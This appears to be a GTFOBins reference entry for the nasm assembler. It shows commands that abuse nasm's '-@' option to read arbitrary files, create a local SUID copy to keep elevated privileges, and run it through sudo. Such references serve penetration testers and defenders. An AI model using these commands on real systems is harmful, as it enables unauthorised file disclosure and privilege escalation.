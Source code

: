 # GTFOBin: nasm

The file content is treated as command line options and disclosed throught error messages, so this is not suitable for reading arbitrary binary data.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
nasm -@ $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which nasm) .

LFILE=file_to_read
./nasm -@ $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo nasm -@ $LFILE
```